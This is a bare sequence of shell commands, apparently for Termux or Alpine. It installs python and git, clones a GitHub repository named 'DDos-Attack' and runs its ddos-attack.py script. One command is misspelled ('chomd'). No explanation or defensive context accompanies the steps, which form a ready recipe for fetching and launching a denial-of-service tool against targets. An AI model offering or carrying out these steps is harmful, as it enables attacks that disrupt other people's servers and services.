 ‏apk update
‏apk upgrade
‏apk add python
‏apk add python3
‏apk add git
‏git clone https://github.com/Ha3MrX/DDos-Attack
‏cd DDos-Attack
‏chomd +x ddos-attack.py
‏python ddos-attack.py
